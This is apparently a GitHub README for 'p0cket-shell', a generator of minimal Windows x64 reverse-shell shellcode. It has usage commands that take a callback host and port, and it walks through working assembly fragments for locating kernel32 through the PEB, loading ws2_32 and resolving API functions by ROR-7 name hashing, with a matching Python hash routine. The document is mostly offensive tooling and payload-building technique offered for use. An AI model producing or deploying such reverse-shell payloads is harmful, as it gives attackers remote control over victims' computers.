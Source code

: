 ﻿<div align="center" markdown="1">
   <a href="https://www.warp.dev/windebloat">
      <img alt="Warp sponsorship" width="736" src="https://github.com/SilentisVox/p0cket-shell/blob/master/assets/p0cket-shell.jpg">
   </a>
</div>

# p0cket-shell

p0cket-shell is an implementation of an exceptionally compact reverse shell, engineered to achieve remote access with the smallest possible memory. This is minimalism without compromising functionality. This is the most size-efficient reverse shell available. This is peak shellcode optimization.

```
╭── тишина ∴ ~\source\gits\p0cket-shell
╰─→ .\p0cket-shell.py
            ____       __        __             __         ____
     ____  / __ \_____/ /_____  / /_      _____/ /_  ___  / / /
    / __ \/ / / / ___/ //_/ _ \/ __/_____/ ___/ __ \/ _ \/ / /
   / /_/ / /_/ / /__/ ,< /  __/ /_/_____(__  ) / / /  __/ / /
  / .___/\____/\___/_/|_|\___/\__/     /____/_/ /_/\___/_/_/
 /_/
 Author: SilentisVox
 Github: https://github.com/SilentisVox/p0cket-shell

usage: p0cket-shell.py [-h] --payload {hardcode,resolve} --LHOST LHOST --LPORT LPORT --format
                       {c,powershell,ps1,python,exe,raw} [--output OUTPUT]
```

### Setup
```powershell
git clone https://github.com/SilenitsVox/p0cket-shell
cd p0cket-shell
python p0cket-shell.py
```

### Usage
```powershell
p0cket-shell.py --payload  [hardcode | resolve]
                --LHOST    [callback ip]
                --LPORT    [callback port]
                --format   [c | powershell | python | exe | raw]
               [--output]  example.py
```

## How it works

Standalone reverse shell shellcode must follow a specific process. Fortunately for us, it is very straight forward.

1. Get handle to kernel32.dll
2. Get handle to ws2_32.dll
3. Save functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA
4. Call functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA

###### Grab library handles
```nasm
get_kernel32:
    mov   rax,   gs:[0x60]              ; PEB
    mov   rax,   [rax + 0x18]           ; PEB->Ldr
    mov   rax,   [rax + 0x30]           ; Ldr->InMemoryOrderModuleList
    mov   rax,   [rax]                  ; InMemoryOrderModuleList.Flink (ntdll.dll)
    mov   rax,   [rax]                  ; Flink->Flink (kernel32.dll)
    mov   rbp,   [rax + 0x10]           ; Base Address
```
```nasm 
load_ws2_32:
    push  0x006c6c                      ; '0\ll'
    mov   rax,   0x642e32335f327377     ; 'd.23_2sw'
    push  rax                           ; Push to stack
    mov   rcx,   rsp                    ; Save pointer 'ws2_32.dll' to rcx
    sub   rsp,   0x28                   ; Align stack
    call  r14                           ; Call LoadLibraryA (Base Address stored in rax)
```

Now from here we can grab the functions within the 2 libraries and then use them how we want. We have to remember how each function behaves and remember whats needed for each function.

### Finding Functions

Now this is the main issue with making tiny shellcode. We want the most reliable/stable, while also providing a very small size. If we do not care for these, we can make very small shellcode.

All we would need to do is have a hardcoded offset from the module base address.

###### Hardcode Offset

```nasm
get_createprocess:
    lea   r15,   [rbp + 0x44F70] ; Hardcode offset from base address
```

If we wish to maintain reliablity and stabilty, we must parse through the desired libraries AddressOfNames, and match it to one we have. The best way to accomplish this would be hashes.

We need a custom mini hash algorithm to make hashes of our desired functions, then we would need to find a function name, hash it, then compare to what we have. If it matches, save the address and return.

### Hashing Algorithm

###### Calculate Hash User Side

```python
def hash(function_name: bytes, rotate_amount: int):
    calculated_hash                     = 0

    for byte in function_name:
        calculated_hash                 = ((calculated_hash >> rotate_amount) | (calculated_hash << (32 - rotate_amount))) & 0xFFFFFFFF
        calculated_hash                 = (calculated_hash + byte) & 0xFFFFFFFF

    return hex(calculated_hash)
```

###### Calculate Hash Machine Side

```nasm
    xor   rax, rax
    xor   rbx, rbx
    cld

hash_loop:
    lodsb
    test  al,    al
    jz    compare_hash
    ror   ebx,   7 ;)
    add   ebx,   eax
    jmp   hash_loop

compare_hash:
    cmp   ebx,   rdx ; Or wherever you have the hash
    jz    hash_found
    jnz   next_function
```
